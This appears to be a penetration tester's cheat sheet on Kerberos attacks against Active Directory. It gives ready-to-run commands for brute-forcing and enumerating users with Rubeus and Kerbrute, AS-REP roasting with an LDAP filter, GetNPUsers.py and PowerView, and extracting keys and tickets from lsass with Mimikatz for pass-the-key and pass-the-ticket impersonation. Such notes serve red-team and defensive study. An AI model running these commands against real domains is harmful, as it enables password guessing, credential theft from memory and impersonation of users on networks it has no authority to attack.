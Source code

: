 # Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```
# AS-REPRoast/Targeted Kerberoasting
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
GetNPUsers.py 'mydomain.local\drdragon:Password!!' --dc-ip -outputfile asrep-hashes.txt
```
- Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
- Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

# Pass the Key/Overpass the Hash
- To request a TGT, the user needs to send a timestamp encrypted with it's key.
- If we have a user's key, it can be used to request a TGT of the user.
- Kerberos keys are cached in `lsass` process. Can be extracted using [[Cheatsheet/Mimikatz|Mimikatz]]
```bash
sekurlsa::ekeys
```

# Pass the Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```bash
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Use the tickets
kerberos::ptt my-tgt.kirbi
# This purges the current tickets from memory and injects the specified tickets

# verify the ticket 
klist
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 

# Verify the ticket
klist
```
